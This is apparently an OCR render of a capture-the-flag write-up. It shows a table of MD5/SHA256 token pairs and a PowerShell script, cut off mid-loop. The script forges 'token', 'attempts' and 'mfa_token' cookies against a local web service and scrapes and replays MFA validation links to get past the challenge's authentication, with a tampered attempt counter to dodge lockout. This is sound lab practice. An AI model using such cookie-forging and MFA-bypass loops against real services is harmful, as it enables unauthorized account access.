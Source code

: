 | 0f262d0003bd696550744fd43cd5b520 | abf98108dbd1095a59bae36726fac48e3ab23da2cf2effeae02ef5c142cb76fe |
| 8cac896f624576d825564bb30c7250eb | 2dda00da692764113b97787241658a1911aeb4c0bd9b92e4fab4ffcb1fe15a33 |
| 8ef6d2e12a58d7ec521a56f25e624b80 | ce92890075a6232a039bcb06b83adf90355119a99da8d694c85681e310191bb9 |
|b4959370a4c484c10a1ecc53b1b56a7d | ae311ebe101c6ac4e11e4e338906ecedc22583fad68b85834eed3cb684fc4383
|38bdd7748a70529e9beb04b95c09195d | acab8d777a0c5f9d631b4fe6e07cc14b7e063c1e48ee8a0ab876d12082ad3fea
|8d4366f08c013f5c0c587b8508b48b15 | 01b1f4132e95b847d89fcdc599fd685e26198aa684196663c4c0b51b1a410dc4
|67566692ca644ddf9c1344415972fba8 | 368ef0eb3bd563c81f658e6c47182524256f09212010774b00939a440dabd9f6
|8fbf4152f89b7e309e89b9f7080c7230 | b3395dc1f995f897f36e5ab99b7a3eada186713cc40785bb33f06c4d7c989673
|936f4db24a290032c954073b3913f444 | 9992b3b85730ea436a546086036520bcf15d86b1a2a8f96e4d3c569148f770d3
|c44d8d6b03dcd4b6bf7cb53db4afdca6 | 35138166ced99d6a600b52f70c818cf44826170fd88b8234107ec0bd51cc276d
|cb722d0b55805cd6feffc22a9f68177d | 15d6e335c167dea490ac4cd91815c56d7ecef3cd4b019588567710d839a9ea45
|724d494386f8ef9141da991926b14f9b | 2ae009872b65d788e44f634736689af1570333fd802b93b41df09a3f7d02c0e1
|67c7aef0d5d3e97ad2488babd2f4c749 | bac2f3580b6491cbf26c84f5dcf343d3f48557833c79cf3efb09f04be0e31b60
|5f8dd236f862f4507835b0e418907ffc | 4216b4faf4391ee4d3e0ec53a372b2f24876ed5d124fe08e227f84d687a7e06c

- Iterate the file listing
```powershell
# Define the input file path (output from the previous script)
$inputFile = "endpoint_hashes.txt"
$cookieValue = "" # c25ha2VvaWwK01 TO c25ha2VvaWwK10

# Read each line from the file
Get-Content -Path $inputFile | ForEach-Object {

    # Split the line into MD5 and SHA256 columns
    $columns = $_ -split ","
    $md5Hash = $columns[0].Trim()
    $sha256Hash = $columns[1].Trim()

    # Create a new web session
    $WebSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

    # Step 1: Add the "token" cookie with MD5 and the "attempts" cookie
    $WebSession.Cookies.Add((New-Object System.Net.Cookie("token", $md5Hash, "/", "127.0.0.1")))
    $WebSession.Cookies.Add((New-Object System.Net.Cookie("attempts", $cookieValue, "/", "127.0.0.1")))

    # Step 2: Send the first request to /tokens/[SHA256]
    $response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession

    # Step 3: Extract the mfa_validate href
    $mfaHref = ($response.Links | Where-Object { $_.outerHTML -like "*mfa_validate*" }).href
    # Write-Output "MFA Token: $mfaHref for $sha256Hash using a cookie with values { 'token' : '$md5Hash' }"

    # Step 4: Add the "mfa_token" cookie with the extracted href
    $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", $mfaHref, "/", "127.0.0.1")))

    # Step 5: Send the second request to /mfa_validate/[SHA256]
    $finalResponse = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession

```